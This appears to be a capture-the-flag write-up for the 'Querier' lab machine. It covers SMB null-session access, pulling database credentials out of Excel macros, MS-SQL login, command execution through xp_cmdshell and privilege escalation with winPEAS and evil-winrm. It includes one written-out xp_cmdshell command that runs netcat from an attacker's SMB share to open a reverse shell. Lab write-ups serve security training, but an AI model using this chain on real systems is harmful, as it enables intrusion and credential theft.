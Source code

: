 # Querier

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Interesting that there was a MS-SQL instance publicly open.

### XLSM Credentials

SMB allowed for null credentials to be accessed here:

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

Within the Reports directory, I found a .xlsm file.

<figure><img src="../../../.gitbook/assets/image (26) (7).png" alt=""><figcaption></figcaption></figure>

We can download this Excel file back to our machine for analysis. Here, I used `oletools` to find out more about the file:

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

We can see how there are VBA Macros within this file. Again, we can use `olevba` to extract the code.

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

We found find this set of credentials for the database here.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then use `mssqlclient.py` to authenticate as this `reporting` user for the database that is publicly facing forward.

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### xp\_cmdshell

With access to the MS-SQL Database, I found that we are able to use `xp_cmdshell` to execute commands on the server.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell through whatever means. I executed `nc.exe` over SMB.

```
xp_cmdshell "\\<IP>\share\nc64.exe -e cmd <IP> 4444"
```

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Now that we're in the machine, I ran winPEAS to enumerate possible escalation vectors. Funnily, it found the Administrator credentials in plaintext within the machine.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

Earlier, Nmap detected that port 5985 for WinRM was open. As such, we can use `evil-winrm` to gain a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>
